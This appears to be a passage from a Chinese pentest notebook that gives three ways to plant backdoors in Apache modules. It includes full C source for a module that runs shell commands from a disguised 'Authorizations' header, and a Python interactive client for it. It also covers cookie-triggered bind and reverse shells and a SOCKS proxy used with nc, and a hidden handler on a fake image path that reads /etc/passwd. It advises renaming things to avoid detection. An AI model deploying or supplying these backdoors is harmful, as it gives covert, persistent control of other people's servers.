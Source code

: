 #### Apache Module后门1
	From:https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor
	生成模板结构
	>apxs -g -n auth
![image](/assets/Pentest_Note/master/img/620.png)
	
	编辑mod_auth.c文件
```c
#include "httpd.h"
#include "http_config.h"
#include "http_protocol.h"
#include "ap_config.h"
#include <stdio.h>
#include <stdlib.h>
static int auth_handler(request_rec *r)
{
    const apr_array_header_t    *fields;
    int                            i;
    apr_table_entry_t           *e = 0;
    char FLAG = 0;
    fields = apr_table_elts(r->headers_in);
    e = (apr_table_entry_t *) fields->elts;
    for(i = 0; i < fields->nelts; i++) {
        if(strcmp(e[i].key, "Authorizations") == 0){
            FLAG = 1;
            break;
        }
    }
    if (FLAG){
        char * command = e[i].val;
        FILE* fp = popen(command,"r");
        char buffer[0x100] = {0};
        int counter = 1;
        while(counter){
            counter = fread(buffer, 1, sizeof(buffer), fp);
            ap_rwrite(buffer, counter, r);
        }
        pclose(fp);
        return DONE;
    }
    return DECLINED;
}
static void auth_register_hooks(apr_pool_t *p)
{
    ap_hook_handler(auth_handler, NULL, NULL, APR_HOOK_MIDDLE);
}
module AP_MODULE_DECLARE_DATA auth_module = {
    STANDARD20_MODULE_STUFF, 
    NULL,                  /* create per-dir    config structures */
    NULL,                  /* merge  per-dir    config structures */
    NULL,                  /* create per-server config structures */
    NULL,                  /* merge  per-server config structures */
    NULL,                  /* table of config file commands       */
    auth_register_hooks  /* register hooks                      */
};

```
	编译后重启apache
	>apxs -i -a -c mod_auth.c && service apache2 restart
![image](/assets/Pentest_Note/master/img/621.png)

	原文件接受的头是backdoor太明显，这里换成了Authorizations
![image](/assets/Pentest_Note/master/img/622.png)
	
	或使用python来执行
![image](/assets/Pentest_Note/master/img/623.png)
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
import sys
def exploit(host, port, command):
    headers = {
        "Authorizations": command
    }
    url = "http://%s:%d/" % (host, port)
    response = requests.get(url, headers=headers)
    content = response.content
    print content
def main():
    if len(sys.argv) != 3:
        print "Usage : "
        print "\tpython %s [HOST] [PORT]" % (sys.argv[0])
        exit(1)
    host = sys.argv[1]
    port = int(sys.argv[2])
    while True:
        command = raw_input("$ ")
        if command == "exit":
            break
        exploit(host, port, command)
if __name__ == "__main__":
    main()

```
#### Apache Module后门2
	From:https://github.com/VladRico/apache2_BackdoorMod
	.load文件传入/etc/apache2/mods-available/目录，.so文件传入/usr/lib/apache2/modules/目录
	启动后门模块，重启apache
	>a2enmod backdoor&service apache2 restart
![image](/assets/Pentest_Note/master/img/624.png)

	Cookie里添加字段password=backdoor
	访问http://ip/ping返回如下图说明后门正常允许
![image](/assets/Pentest_Note/master/img/625.png)

	访问http://ip/bind/12345 开启正向连接，攻击机执行nc ip 12345即可
![image](/assets/Pentest_Note/master/img/626.png)

	访问http://ip/revtty/192.168.0.107/12138 开启反向连接，攻击机109执行nc监听12138即可
![image](/assets/Pentest_Note/master/img/627.png)

	访问http://ip/proxy/1337开启socks代理
![image](/assets/Pentest_Note/master/img/628.png)
![image](/assets/Pentest_Note/master/img/629.png)
![image](/assets/Pentest_Note/master/img/630.png)

	想要结束socks代理可执行
	>echo "imdonewithyou" |nc 192.168.0.111 1337
![image](/assets/Pentest_Note/master/img/631.png)

	即可结束socks代理
	以上原作者的文件命名backdoor太明显，可以自己修改文件重新编译
	创建模板结构命名为phpmodev
![image](/assets/Pentest_Note/master/img/632.png)
![image](/assets/Pentest_Note/master/img/633.png)

	修改cookie内容为迷惑字段Authorizations=PHPSESSIONID
![image](/assets/Pentest_Note/master/img/634.png)
#### Apache Module后门3
	From: https://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247491179&idx=1&sn=ab26fe36ac74f5b140e91279ae8018c7
	生成模板结构
	>apxs -g -n phpdevmod
![image](/assets/Pentest_Note/master/img/635.png)

	编辑mod_phpdevmod.c文件
	编译
	>make -e CC=x86_64-linux-gnu-g++
![image](/assets/Pentest_Note/master/img/636.png)

	生成的.so文件在/.libs目录下
![image](/assets/Pentest_Note/master/img/637.png)

	将其复制到/usr/lib/apache2/modules/目录
	修改/etc/apache2/mods-enabled/php7.0.load文件，添加如下
	LoadModule phpdevmod_module /usr/lib/apache2/modules/mod_phpdevmod.so
	<Location /qq.jpg>    #可以设置为任何不存在的文件
    	setHandler phpdevmod
	</Location>
![image](/assets/Pentest_Note/master/img/638.png)

	需重启apache服务
	访问后门方式http://ip/qq.jpg?命令的url编码
	直接访问后门文件
![image](/assets/Pentest_Note/master/img/639.png)

	636174202F6574632F706173737764为cat /etc/passwd的url编码
![image](/assets/Pentest_Note/master/img/640.png)